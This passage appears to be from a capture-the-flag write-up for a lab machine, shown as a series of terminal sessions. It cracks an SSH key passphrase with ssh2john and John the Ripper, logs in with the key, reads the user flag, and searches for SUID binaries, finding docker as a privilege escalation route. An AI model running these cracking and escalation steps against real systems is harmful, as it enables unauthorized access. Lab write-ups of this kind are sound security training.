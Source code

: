```

302
```

```
┌──(nabla㉿kali)-[~]
└─$ ssh2john id_rsa > passphrase_hash.txt

┌──(nabla㉿kali)-[~]
└─$ john --wordlist=wordlist.txt passphrase_hash.txt

[SNIP]

inadvertently    (id_rsa)
```

```
┌──(nabla㉿kali)-[~]
└─$ ssh 'marty.mcfly'@'future.nyx' -i ./id_rsa

Enter passphrase for key './id_rsa': 

Linux future 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64

marty.mcfly@future:~$ 
```

```
marty.mcfly@future:~$ ls -la /home/marty.mcfly

total 32
drwxr-xr-x 4 marty.mcfly marty.mcfly 4096 Mar 24  2024 .
drwxr-xr-x 4 root        root        4096 Mar 23  2024 ..
lrwxrwxrwx 1 root        root           9 Mar 23  2024 .bash_history -> /dev/null
-rw-r--r-- 1 marty.mcfly marty.mcfly  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 marty.mcfly marty.mcfly 3526 Apr 23  2023 .bashrc
drwxr-xr-x 3 marty.mcfly marty.mcfly 4096 Mar 23  2024 .local
-rw-r--r-- 1 marty.mcfly marty.mcfly  807 Apr 23  2023 .profile
drwx------ 2 marty.mcfly marty.mcfly 4096 Mar 24  2024 .ssh
-r-------- 1 marty.mcfly marty.mcfly   33 Mar 23  2024 user.txt

marty.mcfly@future:~$ cat /home/marty.mcfly/user.txt

fe12df45c64c362ec68abd9c27467e35 🚩
```

**Linux Privilege Escalation**

```
marty.mcfly@future:~$ find / -perm -4000 2> /dev/null

[SNIP]

/usr/bin/docker
```

